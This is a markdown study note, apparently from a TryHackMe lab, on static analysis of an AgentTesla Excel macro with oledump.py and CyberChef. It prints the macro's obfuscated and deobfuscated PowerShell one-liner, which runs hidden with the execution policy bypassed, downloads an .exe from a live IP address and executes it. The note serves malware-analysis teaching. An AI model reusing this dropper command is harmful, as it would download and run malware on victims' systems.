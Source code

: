# REMnux.md

## REMux is a Malware analysis based Linus ditstro that can be found here: https://remnux.org/

### From Cybersecurity101 on THM // 

In this task, we will use oledump.py to conduct static analysis on a potentially malicious Excel document. 

Oledump.py is a Python tool that analyzes OLE2 files, commonly called Structured Storage or Compound File Binary Format. 
OLE stands for Object Linking and Embedding, a proprietary technology developed by Microsoft. 
OLE2 files are typically used to store multiple data types, such as documents, spreadsheets, and presentations, within a single file. 
This tool is handy for extracting and examining the contents of OLE2 files, making it a valuable resource for forensic analysis and malware detection.

Let's start!
Using the virtual machine attached to task 2, the REMnux VM, navigate to the /home/ubuntu/Desktop/tasks/agenttesla/ directory. Our target file is named agenttesla.xlsm. 
Run the command oledump.py agenttesla.xlsm. See the terminal below.

Terminal
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm 
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
 Based on OleDump's file analysis, a VBA script might be embedded in the document and found inside xl/vbaProject.bin. 
 Therefore, oledump will assign this with an index of A, though this can sometimes differ. The A (index) +Numbers are called data streams. 

Now, we should be aware of the data stream with the capital letter M. This means there is a Macro, and you might want to check out this data stream, 'VBA/ThisWorkbook'.

So, let's check it out! Let's run the command oledump.py agenttesla.xlsm -s 4. 
This command will run the oledump and look into the actual data stream of interest using the parameter -s 4,  wherein the -s parameter is short for -select  and the number four(4) as the data stream of interest is in the 4th place(A4: M 688 'VBA/ThisWorkbook')

Terminal
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4
View Results
The results above are in hex dump format. There might be some familiar words from a trained eye. 
However, this is still challenging for us, don't you think? So, let's make it more readable and easier to understand.

We will run an additional parameter --vbadecompress in addition to the previous command.
When we use this parameter, oledump will automatically decompress any compressed VBA macros it finds into a more readable format, making it easier to analyze the contents of the macros.

Terminal
ubuntu@MACHINE_IP:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress
View Results
This is much better, isn't it?
 Now, we don't need to be able to read the whole script but rather familiarize ourselves with some characters and commands. 
 Our interest here would be the value of Sqtnew because if you check the script, there is a Public IP, a PDF, and a .exe inside. We might want to look into this further.

Terminal
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")

We will copy the first value of Sqtnew and paste it into CyberChef's input area. You can open a local copy of CyberChef inside the REMnux VM or go to this link to access the online version. 
Use whichever works for you. 
You might want to check our room about CyberChef to get more familiar with the tool.

Next, select the Find/Replace operation twice. 
Looking back at the script, the 2nd and 3rd values of Sqtnew have a command to replace * with "" and ^ with "". 
We would assume that the "" means there is no value. So, with our first operation selected, we put the value * and selected SIMPLE STRING as additional parameters. 
In contrast, we did not put anything on the Replace box or have any value.  
The same applies to our second operation: we put the value ^ and selected SIMPLE STRING, and the replace box has no value. See the image below.

CyberChef using Find/Replace twice to fix PowerShell script.

Now, this is more readable! However, for our starters, this can be challenging. So, we will tackle the most basic commands here.

Terminal
"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
Let's break it down!

So, in PowerShell, running the -WindowStyle parameter allows you to control how the PowerShell window appears when executing a script or command. In this case, hidden means that the PowerShell window won’t be visible to the user.
By default, PowerShell restricts script execution for security reasons. The -executionpolicy parameter allows you to override this policy. The bypass means that the execution policy is temporarily ignored, allowing any script to run without restriction.
The Invoke-WebRequest is commonly used for downloading files from the internet.
The -Uri Specifies the URL of the web resource you want to retrieve. In our case, the script is downloading the resource Doc-3737122pdf.exe from http://193.203.203.67/rt/.
The -OutFile specifies the local file where the downloaded content will be saved.  In this case, the Doc-3737122pdf.exe will be saved to $TempFile.
The Start-Process is used to execute the downloaded file that is stored in $TempFile after the web request.
To summarize, when the document agenttesla.xlsm is opened, a Macro will run! This Macro contains a VBA script. 
The script will run and will be running a PowerShell to download a file named Doc-3737122pdf.exe from http://193.203.203.67/rt/, save it to a variable $TempFile, then execute or start running the file inside this variable, which is a binary or a .exe file (Doc-3737122pdf.exe). This is a usual technique used by threat actors to avoid early detection. Pretty nasty, right?!


